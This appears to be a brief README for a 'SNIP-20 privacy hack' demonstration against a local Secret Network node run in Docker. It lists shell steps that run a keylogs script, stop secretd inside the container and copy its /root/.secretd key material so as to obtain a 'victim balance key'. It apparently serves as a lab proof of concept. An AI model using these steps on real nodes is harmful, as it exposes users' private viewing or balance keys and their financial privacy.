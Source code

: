 ## SNIP-20 privacy hack
```
docker-compose down
docker system prune

./build_image.sh

sudo ./start_node.sh

./node_modules/.bin/jest -t Setup
./keylogs.sh
```
Get the victim balance key.

```
docker exec -it hacking-localsecret-2-1 bash
pkill -f secretd
cp -rf /root/.secretd/* backup/
vim backup/vimtim_key
```
Store the victim balance key.

```
./scripts/test_snip20.sh
```

